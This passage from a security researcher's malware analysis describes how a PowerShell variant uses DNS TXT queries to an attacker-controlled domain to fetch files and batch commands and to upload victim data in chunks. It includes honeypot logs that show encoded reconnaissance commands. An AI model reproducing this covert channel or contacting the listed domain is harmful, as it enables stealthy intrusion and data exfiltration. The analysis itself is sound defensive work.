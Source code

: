 
Figure 9 Beginning of dn.ps1 variant
The dn.ps1 variant will perform DNS queries with the following characteristics:






rne_[victim_id]_[random].hostname
rd_[victim_id]_[filename]_[file_size]_[random].hostname
bne_[victim_id]_random].hostname
bd_[victim_id]_[filename]_[file_size]_[random].hostname
u_[victim_id]_[filename]_[byte_position]_[random].hostname




12345

rne_[victim_id]_[random].hostnamerd_[victim_id]_[filename]_[file_size]_[random].hostnamebne_[victim_id]_random].hostnamebd_[victim_id]_[filename]_[file_size]_[random].hostnameu_[victim_id]_[filename]_[byte_position]_[random].hostname






In the above queries, the ‘rne’ command will ask the remote server if a normal file is available for download. If it is, the server will respond with a response of ‘OK’, followed by the filename. In such a situation, the malware will perform the ‘rd’ command, which will actually download the file in question.
Similarly, the same execution flow is seen for the ‘bne’ and ‘bd’ commands respectively, only this particular operation is looking for a batch file. In the event the malware is downloading files, it will look for a string of ‘EOFEOF’ to signal the end of the data stream.
The ‘u’ command is used to upload data that is generated from any provided files or scripts. Data is uploaded in chunks, with the ‘byte_position’ variable holding the current byte position of the uploaded file.
We ran this particular variant for a number of days, and were able to solicit the attackers to interact with our honeypot. A Python script was used to parse the collected PCAP, with the following results (truncated for brevity):






[+] Query: rne_DNSTRWIN-LJLV2NKIOKPR1009969912_1988996938.shalaghlagh.tk | Type: TXT
[+] Response TXT: NO
[+] Query: bne_DNSTRWIN-LJLV2NKIOKPR1009969912_1404872126.shalaghlagh.tk | Type: TXT
[+] Response TXT: OK1.txt
[*] Filename: 1.txt
[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_1_-_txt_0_840824109.shalaghlagh.tk | 
Type: TXT
[+] Response TXT: aG9zdG5hbWU=
[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_1_-_txt_8_1643283204.shalaghlagh.tk | 
Type: TXT
[+] Response TXT: EOFEOF
[*] Decoded Stream: hostname
[+] Query: bne_DNSTRWIN-LJLV2NKIOKPR1009969912_1534172028.shalaghlagh.tk | Type: TXT
[+] Response TXT: OK2.txt
[*] Filename: 2.txt
[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_2_-_txt_0_579093369.shalaghlagh.tk | 
Type: TXT
[+] Response TXT: c3lzdGVtaW5mbw==
[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_2_-_txt_10_1446367320.shalaghlagh.tk |
Type: TXT
[+] Response TXT: EOFEOF
[*] Decoded Stream: systeminfo
[+] Query: rne_DNSTRWIN-LJLV2NKIOKPR1009969912_1130109782.shalaghlagh.tk | Type: TXT
[+] Response TXT: NO
[+] Query: bne_DNSTRWIN-LJLV2NKIOKPR1009969912_1735654322.shalaghlagh.tk | Type: TXT
[+] Response TXT: OK3.txt